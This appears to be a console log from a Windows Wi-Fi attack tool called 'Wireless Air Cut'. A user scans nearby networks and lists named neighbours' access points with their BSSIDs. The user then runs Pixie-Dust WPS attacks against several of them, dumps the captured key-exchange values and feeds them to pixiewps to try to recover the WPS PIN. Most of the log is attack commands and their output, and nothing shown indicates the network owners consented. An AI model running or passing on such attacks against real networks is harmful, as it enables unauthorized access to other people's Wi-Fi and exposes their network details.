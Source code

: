 				 _  _  _       _            _                           _           ______           
				| || || |     (_)          | |                     /\  (_)         / _____)     _    
				| || || | ____ _  ____ ____| | ____  ___  ___     /  \  _  ____   | /     _   _| |_  
				| ||_|| |/ _  | |/ ___) _  ) |/ _  )/___)/___)   / /\ \| |/ ___)  | |    | | | |  _) 
				| |___| ( ( | | | |  ( (/ /| ( (/ /|___ |___ |  | |__| | | |      | \____| |_| | |__ 
				 \______|\_||_|_|_|   \____)_|\____|___/(___/   |______|_|_|       \______)____|\___)
				                                                                                     
				                           ---     Patcher (c) 2016     ---                          
				     Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International      
				                                                                                     

Selim@SELIM-PC:#_> AdapterList -ALL_WIRELESS_ONLY
6C:88:14:97:37:F0    Intel(R) Centrino(R) Advanced-N 6205

Selim@SELIM-PC:#_> Adapter -Start 6C:88:14:97:37:F0

Selim@SELIM-PC:#_> Scan -WPSONLY False
.....................
BSSID     	         Channel    RSSI    WPS Locked    ESSID
-------------------------------------------------------------------------------------
70:2E:22:7C:79:FC         5       -86     False         AHMED
1C:59:9B:B9:84:D4         5       -86     False         Yassin
24:D3:F2:B1:9B:AD         9       -82     False         WE_ALYA
14:CC:20:40:9A:19         1       -68      True         lolo
1C:67:58:F0:EA:CC         1       -82     False         adnan
58:BA:D4:0E:B5:7C        11       -76     False         Tagen
9A:DD:EA:49:08:53         6       -43     False         Infinix HOT 4
54:BE:53:60:AB:0C         9       -86     False         
34:DA:B7:AC:4C:4F         2       -83     False         WE_AC4C4F
54:BE:53:79:24:40         2       -66     False         
50:78:B3:B4:5B:90         6       -90     False         WE_B45B90
7C:39:53:D3:47:8F         1       -88     False         
64:6D:6C:3E:1F:48        11       -86     False         Etisalat
A4:2B:B0:FF:88:60        10       -88      True         omeromer
50:78:B3:A8:6B:94        10       -90     False         Abo Rovan 


Selim@SELIM-PC:#_> Scan -BSSID 9A:DD:EA:49:08:53
[+] Searching for Ap....
Selim@SELIM-PC:#_>  PixieDust -SSID Infinix HOT 4  -BSSID 9A:DD:EA:49:08:53
[+] Testing Pixie-Dust in Infinix HOT 4  9A:DD:EA:49:08:53 (03/02/2020 08:42:15 م)
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found

Selim@SELIM-PC:#_> Scan -BSSID 54:BE:53:79:24:40
[+] Searching for Ap...........
Selim@SELIM-PC:#_>  PixieDust -SSID   -BSSID 54:BE:53:79:24:40
[+] Testing Pixie-Dust in   54:BE:53:79:24:40 (03/02/2020 08:43:02 م)
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found
[+] Associating with AP
[!] Association failed
[+] Ap found
[+] Associating with AP

Selim@SELIM-PC:#_> 
Selim@SELIM-PC:#_> Scan -BSSID A4:2B:B0:FF:88:60
[+] Searching for Ap..........
Selim@SELIM-PC:#_>  PixieDust -SSID omeromer  -BSSID A4:2B:B0:FF:88:60
[+] Testing Pixie-Dust in omeromer  A4:2B:B0:FF:88:60 (03/02/2020 08:43:49 م)
[+] Ap found
  [!] Ap locked

Selim@SELIM-PC:#_> Scan -BSSID 7C:39:53:D3:47:8F
[+] Searching for Ap.............
[!] Ap not found

Selim@SELIM-PC:#_> Scan -BSSID 70:2E:22:7C:79:FC
[+] Searching for Ap.............
[!] Ap not found

Selim@SELIM-PC:#_> Scan -BSSID 1C:59:9B:B9:84:D4
[+] Searching for Ap.......
Selim@SELIM-PC:#_>  PixieDust -SSID Yassin  -BSSID 1C:59:9B:B9:84:D4
[+] Testing Pixie-Dust in Yassin  1C:59:9B:B9:84:D4 (03/02/2020 08:48:25 م)
[+] Ap found
[+] Associating with AP
[+] Starting protocol
  [<] Receive M1
  [>] Sent    M2
  [<] Receive M3

[P] AuthKey: 3C:D8:C1:0E:0D:EB:4E:B6:9F:A8:C8:5F:E4:E5:94:11:47:10:BC:90:AF:31:AE:FE:84:21:1F:AA:63:B2:55:E4
[P]     PKE: D0:14:1B:15:65:6E:96:B8:5F:CE:AD:2E:8E:76:33:0D:2B:1A:C1:57:6B:B0:26:E7:A3:28:C0:E1:BA:F8:CF:91:66:43:71:17:4C:08:EE:12:EC:92:B0:51:9C:54:87:9F:21:25:5B:E5:A8:77:0E:1F:A1:88:04:70:EF:42:3C:90:E3:4D:78:47:A6:FC:B4:92:45:63:D1:AF:1D:B0:C4:81:EA:D9:85:2C:51:9B:F1:DD:42:9C:16:39:51:CF:69:18:1B:13:2A:EA:2A:36:84:CA:F3:5B:C5:4A:CA:1B:20:C8:8B:B3:B7:33:9F:F7:D5:6E:09:13:9D:77:F0:AC:58:07:90:97:93:82:51:DB:BE:75:E8:67:15:CC:6B:7C:0C:A9:45:FA:8D:D8:D6:61:BE:B7:3B:41:40:32:79:8D:AD:EE:32:B5:DD:61:BF:10:5F:18:D8:92:17:76:0B:75:C5:D9:66:A5:A4:90:47:2C:EB:A9:E3:B4:22:4F:3D:89:FB:2B
[P]     PKR: 85:19:78:EE:69:4C:97:DF:B2:E1:2A:6F:78:29:9A:A8:28:C9:BD:0E:3C:35:C2:FE:05:3F:74:E0:DA:C3:C0:D7:DA:8D:B2:F3:A3:85:0E:52:C0:90:5A:FB:41:70:FE:F2:CE:2D:5E:41:03:D3:8F:54:E6:7E:71:30:0E:1D:F0:9D:FE:9F:FA:BE:7C:90:2D:0A:9E:3C:BF:58:4B:00:C4:54:E6:E8:56:5E:2F:D5:E3:3D:3A:63:C1:60:C9:73:E0:0D:56:19:49:7C:7D:34:6C:02:A3:D3:E2:A0:1E:62:83:E1:4D:D3:B9:41:58:D3:A7:F6:3D:43:DF:4D:82:26:8B:0C:F9:78:5B:F2:52:E4:4E:36:4E:A9:46:64:52:2B:80:28:A6:12:FE:36:94:90:4C:26:21:AD:8E:D7:CE:20:DB:9D:A1:BB:A0:8C:08:A5:75:84:0B:2E:4F:CB:6F:4F:72:67:D5:F1:3E:0A:6B:67:5F:ED:1C:BE:E8:E9:4D:F8:75:A0
[P] E-HASH1: F9:37:FB:68:6E:6D:AF:E9:7C:42:1D:A1:17:DA:D2:FA:AD:C2:F4:72:59:C2:78:8A:F0:5A:1D:38:9B:57:F4:8B
[P] E-HASH2: D7:B5:C9:C3:0E:E7:DB:A6:CF:C7:68:86:34:5F:82:92:A9:A2:5B:53:1A:40:0F:FA:B2:4E:D2:A1:2B:EC:7C:1D
[P] E-NONCE: 86:88:48:EF:23:EB:04:73:D0:B7:E9:F9:C3:D3:79:BC
[P] R-NONCE: 0B:5A:0A:52:E2:AA:D8:EF:38:63:BC:55:0A:1E:39:10

Selim@SELIM-PC:#_>  PixieWps -e D0:14:1B:15:65:6E:96:B8:5F:CE:AD:2E:8E:76:33:0D:2B:1A:C1:57:6B:B0:26:E7:A3:28:C0:E1:BA:F8:CF:91:66:43:71:17:4C:08:EE:12:EC:92:B0:51:9C:54:87:9F:21:25:5B:E5:A8:77:0E:1F:A1:88:04:70:EF:42:3C:90:E3:4D:78:47:A6:FC:B4:92:45:63:D1:AF:1D:B0:C4:81:EA:D9:85:2C:51:9B:F1:DD:42:9C:16:39:51:CF:69:18:1B:13:2A:EA:2A:36:84:CA:F3:5B:C5:4A:CA:1B:20:C8:8B:B3:B7:33:9F:F7:D5:6E:09:13:9D:77:F0:AC:58:07:90:97:93:82:51:DB:BE:75:E8:67:15:CC:6B:7C:0C:A9:45:FA:8D:D8:D6:61:BE:B7:3B:41:40:32:79:8D:AD:EE:32:B5:DD:61:BF:10:5F:18:D8:92:17:76:0B:75:C5:D9:66:A5:A4:90:47:2C:EB:A9:E3:B4:22:4F:3D:89:FB:2B -r 85:19:78:EE:69:4C:97:DF:B2:E1:2A:6F:78:29:9A:A8:28:C9:BD:0E:3C:35:C2:FE:05:3F:74:E0:DA:C3:C0:D7:DA:8D:B2:F3:A3:85:0E:52:C0:90:5A:FB:41:70:FE:F2:CE:2D:5E:41:03:D3:8F:54:E6:7E:71:30:0E:1D:F0:9D:FE:9F:FA:BE:7C:90:2D:0A:9E:3C:BF:58:4B:00:C4:54:E6:E8:56:5E:2F:D5:E3:3D:3A:63:C1:60:C9:73:E0:0D:56:19:49:7C:7D:34:6C:02:A3:D3:E2:A0:1E:62:83:E1:4D:D3:B9:41:58:D3:A7:F6:3D:43:DF:4D:82:26:8B:0C:F9:78:5B:F2:52:E4:4E:36:4E:A9:46:64:52:2B:80:28:A6:12:FE:36:94:90:4C:26:21:AD:8E:D7:CE:20:DB:9D:A1:BB:A0:8C:08:A5:75:84:0B:2E:4F:CB:6F:4F:72:67:D5:F1:3E:0A:6B:67:5F:ED:1C:BE:E8:E9:4D:F8:75:A0 -s F9:37:FB:68:6E:6D:AF:E9:7C:42:1D:A1:17:DA:D2:FA:AD:C2:F4:72:59:C2:78:8A:F0:5A:1D:38:9B:57:F4:8B -z D7:B5:C9:C3:0E:E7:DB:A6:CF:C7:68:86:34:5F:82:92:A9:A2:5B:53:1A:40:0F:FA:B2:4E:D2:A1:2B:EC:7C:1D -a 3C:D8:C1:0E:0D:EB:4E:B6:9F:A8:C8:5F:E4:E5:94:11:47:10:BC:90:AF:31:AE:FE:84:21:1F:AA:63:B2:55:E4 -n 86:88:48:EF:23:EB:04:73:D0:B7:E9:F9:C3:D3:79:BC -f

 Pixiewps 1.4

 [-] WPS pin not found!

 [*] Time taken: 0 s 148 ms

 [@] Looks like you have some interesting data! Please consider contributing with your data to improve pixiewps. Follow the instructions on http://0x0.st/tm - Thank you!



Selim@SELIM-PC:#_> 
